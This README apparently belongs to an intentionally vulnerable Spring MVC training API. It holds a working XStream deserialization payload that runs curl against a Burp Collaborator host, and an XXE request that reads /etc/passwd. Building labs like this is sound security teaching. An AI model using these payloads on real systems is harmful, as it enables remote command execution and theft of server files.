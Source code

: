 # Sample Spring MVC API vulnerable to deserialization attacks

1. `git clone https://github.com/eoftedal/deserialize.git`
2. `mvn clean install jetty:run`

Accessible on port 8080

## Normal request

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<contact>  
    <id>1</id>
    <firstName>yo</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>  
```

## Deserialization attack

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<dynamic-proxy>  
  <interface>org.insecurelabs.api.contacts.Contact</interface>  
  <handler class="java.beans.EventHandler">  
    <target class="java.lang.ProcessBuilder">
      <command><string>/usr/bin/curl</string><string>http://[yourid].burpcollaborator.net</string></command>
    </target>
    <action>start</action>
  </handler>  
</dynamic-proxy> 
```

## XEE

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
]>
<contact>  
    <id>1</id>
    <firstName>&content;</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>
```


